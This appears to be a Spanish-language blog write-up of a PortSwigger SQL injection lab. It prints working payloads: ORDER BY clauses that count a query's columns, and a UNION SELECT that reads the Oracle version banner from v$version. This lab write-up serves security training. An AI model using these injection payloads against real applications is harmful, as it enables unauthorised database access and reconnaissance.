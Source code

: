 ```yaml
---
title: PortSwigger - SQL injection attack, querying the database type and version on Oracle.
layout: post
post-image: /assets/images/gatohacker4.jpg 
description: La resolución del reto SQL injection attack, querying the database type and version on Oracle. 
tags:
- portswigger
- sqli
- post
- writeups
---
```

# Solución
---

Primero hacemos click en **Accessories** o en cualquier otro filtro de búsqueda.

![](/images/images-portswigger-sqli/lab7-1.png)

Luego ejecutamos una query para enumerar la cantidad de columnas que existen.

```sql
' ORDER BY 1 -- -
```

![](/images/images-portswigger-sqli/lab7-4.png)

Con 1 la página funciona correctamente. Debemos seguir hasta que la página falle.

```sql
' ORDER BY 1,2 -- -
```

![](/images/images-portswigger-sqli/lab7-5.png)

Con 3 la página falla, esto significa que debemos agregar 2 `null` a nuestra query final.

```sql
' ORDER BY 1,2,3 -- -
```

![](/images/images-portswigger-sqli/lab7-6.png)

Siguiendo la [cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) de PortSwigger podemos armar nuestra query final. 

Debemos identificar la versión que la base de datos, primero probaremos con Oracle y si no funciona probamos con Microsoft, PostgreSQL y así.

```sql
' UNION SELECT banner,null from v$version -- -
```

Por suerte el primer payload funcionó e identificamos que la base de datos es Oracle, además resolvimos el lab.

![](/images/images-portswigger-sqli/lab7-7.png)


---

## [Anterior](/SQL-injection-UNION-attack%2C-retrieving-multiple-values-in-a-single-column)
## [Siguiente](/SQL-injection-attack%2C-querying-the-database-type-and-version-on-MySQL-and-Microsoft)
